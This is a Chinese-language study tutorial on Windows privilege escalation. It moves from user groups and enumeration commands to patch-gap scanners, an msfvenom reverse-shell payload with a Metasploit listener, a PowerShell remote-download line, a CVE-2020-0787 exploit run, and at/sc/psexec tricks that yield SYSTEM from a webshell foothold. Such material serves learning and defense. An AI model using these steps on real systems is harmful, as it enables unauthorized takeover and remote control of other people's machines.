



# Windows溢出漏洞


## 基础知识

用户权限的划分：不同的用户与用户组。

权限提升基础知识：权限划分（普通用户，管理员权限，系统权限）

权限提升环境问题：

- web提权：已有网站权限（可以操作网站内容，但无法操作服务器），想要获得服务器权限，进而操作服务器，成功几率较低，一般是最低的权限
- 本地提权：已有服务器普通用户权限，想要获得root权限，成功几率高。

权限提升方法：不同的操作环境有不同的方法，针对方法适应问题（溢出漏洞）。

权限提升针对版本：个人及服务器版本，不同的操作环境有不同的方法，针对方法适应问题（溢出漏洞）。

### windows权限(用户及用户组)

Windows系统内置了许多本地用户组，这些用户组本身都已经被赋予一些权限（permissions)，它们具有管理本地计算机或访问本地资源的权限。只要用户账户加入到这些本地组内，这些用户账户也将具备该组所拥有的权限。

### 普通权限

默认情况下，系统为用户分了7个组，并给每个组赋予不同的操作权限，管理员组(Administrators)、高权限用户组(Power Users)、普通用户组(Users)、备份操作组(Backup Operators)、文件复制组(Replicator)、来宾用户组(Guests)，身份验证用户组(Ahthenticated users)。其中备份操作组和文件复制组为维护系统而设置，平时不会被使用。

管理员组拥有大部分的计算机操作权限(并不是全部)，能够随意修改删除所有文件和修改系统设置。

高权限用户组，这一部分用户也能做大部分事情，但是不能修改系统设置，不能运行一些涉及系统管理的程序。

普通用户组则被系统拴在了自己的地盘里，不能处理其他用户的文件和运行涉及管理的程序等。

来宾用户组的文件操作权限和普通用户组一样，但是无法执行更多的程序。

身份验证用户组(Ahthenticated users) 经过ms验证程序登录的用户均属于此组。

### 特殊权限

除了上面提到的7个默认权限分组，系统还存在一些特殊权限成员，这些成员是为了特殊用途而设置，分别是：SYSTEM(系统)，Trustedinstaller（信任程序模块），Everyone(所有人)，CREATOR OWNER(创建者) 等，这些特殊成员不被任何内置用户组吸纳，属于完全独立出来的账户。

真正拥有`完全访问权`的只有一个成员：SYSTEM。这个成员是系统产生的，真正拥有整台计算机管理权限的账户，一般的操作是无法获取与它等价的权限的。

`所有人`权限与普通用户组权限差不多，它的存在是为了让用户能访问被标记为`公有`的文件，这也是一些程序正常运行需要的访问权限，任何人都能正常访问被赋予`Everyone`权限的文件，包括来宾组成员。

被标记为`创建者`权限的文件只有建立文件的那个用户才能访问，做到了一定程度的隐私保护，但是，所有的文件访问权限均可以被管理员组用户和SYSTEM成员忽略，除非用户使用了NTFS加密。

无论是普通权限还是特殊权限，它们都可以`叠加`使用，`叠加`就是指多个权限共同使用，例如一个账户原本属于Users组，而后我们把他加入Administrators组再加入Trustedinstaller等权限提升，那么现在这个账户便同时拥有两个或多个权限身份，而不是用管理员权限去覆盖原来身份。权限叠加并不是没有意义的，在一些需要特定身份访问的场合，用户只有为自己设置了指定的身份才能访问，这个时候`叠加`的使用就能减轻一部分劳动量了。

## Windows提权命令

```powershell
systeminfo  　　　　　　　　// 打印系统信息
whoami      　　　　　　　　// 获得当前用户名
whoami /priv    　　　　　　// 当前账户权限
ipconfig        　　　　　  // 网络配置信息
ipconfig /displaydns        // 显示DNS缓存
route print                 // 打印出路由表
arp -a                      // 打印arp表
hostname                    // 主机名
net user                    // 列出用户
net user 用户名           // 关于用户的信息
net user \SMBPATH Pa$$w0rd /u:UserName      // 连接SMB
net localgroup              // 列出所有组
net localgroup 组名          // 关于指定组的信息
net view \127.0.0.1         // 会话打开到当前计算机
net session                 // 开发给其他机器
netsh firewall show config  // 显示防火墙配置
DRIVERQUERY             　　// 列出安装的驱动
tasklist /svc               // 列出服务任务
net start                   // 列出启动的服务
dir /s foo                  // 在目录中搜索包含指定字符的项
dir /s foo == bar           // 同上
sc query                    // 列出所有服务
sc delete 服务名             // 删除服务
sc qc ServiceName           // 找到指定服务的路径
shutdown /r /t 0            // 立即重启
type file.txt               // 打印出内容
icacls "C:\Example"         // 列出权限
wmic qfe get Caption,Description,HotFixID,InstalledOn  // 列出已安装的补丁
(New-Object System.Net.WebClient) .DownloadFile("http://host/file"."C:\LocalPath")　// 利用ps远程下载文件到本地
accesschk.exe -qwsu "Group"         // 修改对象（尝试Everyone，Authenticated Users和/或Users）
```

## 实践

### 基于Web环境的权限提升

提权的基本流程：信息收集-->补丁筛选-->利用MSF或特定EXP-->提权成功

#### 信息收集

服务器是Windows2012R2的服务器。

通过一句话连接服务器，查看网站webshell的权限，是管理员权限。


添加一个用户。


查看当前用户权限： `whoami /priv`。


查看`systeminfo`信息，并且将信息保存。


通过`systeminfo > systeminfo.txt`将`systeminfo`信息进行保存。


搜集完成信息后进行提权。

#### 补丁筛选

##### Wesng

WES-NG是一种基于 Windows systeminfo实用程序输出的工具，它提供操作系统易受攻击的漏洞列表，包括对这些漏洞的任何利用。适用于 Windows 操作系统。

这个工具既适用本地环境，也适用web环境。因为它只需要我们在目标服务器执行`systeminfo > systeminfo.txt`命令，拿到系统信息（主要是补丁信息）即可，然后我们可以把信息保存在`systeminfo.txt`文件中，在本机运行`wes.py`进行测试即可。

注意：这里的Python只需要自己电脑安装就行。

```
systeminfo > systeminfo.txt # 目标服务器执行命令
python wes.py systeminfo.txt -o vuln.csv # 在自己的本机上执行
```


查看生成的csv文件，判断了可能存在的漏洞。


##### WindowsVulScan

WindowsVulnScan根据软件的名称和版本号来确定是否有 CVE 和公开的 EXP。适用于 Windows 操作系统。

前期收集补丁信息时也需要在PS窗口运行，因此只适用于本地环境。但是我们也可以对其进行一些小的修改，让它可以用于web环境。所以也可以说它是一个通用方法。

###### 使用

第一步运行KBCollect.ps1收集补丁信息，会自动创建KB.json文件，这一步是需要在对方的服务器上运行的。


但是这有一个问题，我们拿到shell，运行的终端是cmd不是powershell，那么我们就没有办法在一句话中运行这个KBCollect.ps1脚本文件。 

解决：打开KB.json文件，我们看到其实这就是一些补丁信息，我们可以直接用systeminfo命令代替，然后将收集到的信息按照KB.json格式重新排列一下即可。


在查找CVE之前，先更新下数据库。

```python
cve-check.py -u # 更新CVEKB数据
cve-check.py -U # 更新CVEEXP数据
```

运行这个命令，查看具有公开EXP的CVE。

```
python cve-check.py -C -f KB.json
```


##### Vulmap

Vulmap是开源的在线本地漏洞扫描器项目。

Vulmap需要在PS窗口运行，因此它只适用本地环境，不适用web环境。适用于 Windows 和 Linux 操作系统漏洞。

但是它对Windows系统不太友好，更适配Linux系统。

###### 使用

将对应的系统的文件，上传至服务器。


在对应的系统将对应的脚本运行。


但是这个工具有一个缺点：只能在powershell里面使用，对于Web提权，不能使用powershell，一般情况下是cmd。

#### 利用MSF

获取到相关漏洞编号后：可以针对此漏洞进行提权，提权的方法有：

1. MSF（优先使用）
2. 特定的EXP

##### MSF

反向链接

先查看本机ip。

```bash
ifconfig
```

生成反弹shell的木马：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LPORT=监听的端口 LHOST=监听的IP -f exe -o test.exe
# 其中 -f exe 指定输出格式为exe文件
# -o 保存exp为test.exe
```


设置监听

```bash
use exploit/multi/handler # 进入监听模块
set payload windows/meterpreter/reverse_tcp # 设置payload反弹
set lhost 0.0.0.0 # 设置LHOST;0.0.0.0什么都监听
set lport 4848 # LPORT参数监听4848端口
exploit # 启动监听
```


对方执行生成的exe文件后，拿到shell，这里面有会话`session`这个很重要。



可以执行命令。

```bash
getuid
```

可以看到这个是Adnministrator权限。


接下来我们可以根据漏洞进行提权，退出shell交互。

```bash
search 漏洞编号 # 搜索对应的漏洞
```


然后就是使用这个漏洞，可以通过`show options`查看对应的攻击载荷。


通过设置一系列的载荷进行攻击，这个最后失败了。


### 本地环境下的权限提升

这种是使用特定的`EXP`，使用`CVE-2020-0787`。

在Windows7系统上，查看权限，发现是普通用户，普通用户是没有办法创建新用户的。




使用EXP进行提权。


可以新建用户了，并且whoami也是system的权限。


### 本地环境下的权限提升-AT&SC&PS

AT&SC&PS命令适用环境？-->AT&SC&PS提权在内网使用比较多

#### AT

只针对`win7/2008`之前的老系统，在`windows2003`系统上测试。

相关命令：

```powershell
at 21:26 /interactive cmd.exe //给系统添加一项作业，在21:26打开cmd命令
at  //查看作业详情
at /del //删除作业
```

使用at命令给系统添加一项作业，在特定时间打开cmd命令，并且查看at作业存在。


等到特定时间时，系统会弹出cmd窗口，运行whoami，发现已经取得了system权限，提权成功。


这是windows2003系统设计上的一个逻辑错误，就是计划任务在运行时会以system身份调用执行。所以弹出来的cmd窗口界面就会享有system权限。

#### SC

这个在Windows2003/2008都可以，但是在2008上面很鸡肋。

相关命令：

```powershell
sc Create syscmd binPath= "cmd /K start" type= own type= interact // 设定服务
sc start syscmd // 启动服务
sc delete 服务名 // 删除服务
```

##### 2003

使用sc命令创建一个服务，启动这个服务



弹出cmd窗口，运行whoami，发现已经取得了system权限，提权成功。


##### 2008

使用sc命令创建一个服务，启动这个服务，但是他会报错，等待一会，会出现一个弹框，点击查看消息就提权了。


可以看到提权成功。


#### PS

需要使用到pstools，pstools是微软官方工具，是为windows提供的第三方工具库

执行命令：

```powershell
psexec.exe -accepteula -s -i -d cmd.exe
```

对于64位的操作系统有64位的工具。


需要用到以前的PSTools版本，现在的版本，无法提权了。

